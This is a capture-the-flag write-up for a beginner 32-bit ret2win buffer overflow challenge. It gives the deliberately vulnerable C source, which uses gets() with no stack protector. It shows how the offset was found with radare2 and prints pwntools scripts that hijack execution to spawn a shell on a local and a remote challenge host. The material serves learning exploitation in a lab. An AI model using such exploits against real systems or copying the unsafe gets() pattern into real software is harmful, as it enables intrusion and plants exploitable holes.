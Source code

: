 ```yaml
---
description: Binary Exploitation
---
```


# Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

{% file src="../../.gitbook/assets/babybufov" %}

{% file src="../../.gitbook/assets/babybufov.c" %}

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's ](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win)guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

<div align="center" data-full-width="false"><figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure></div>
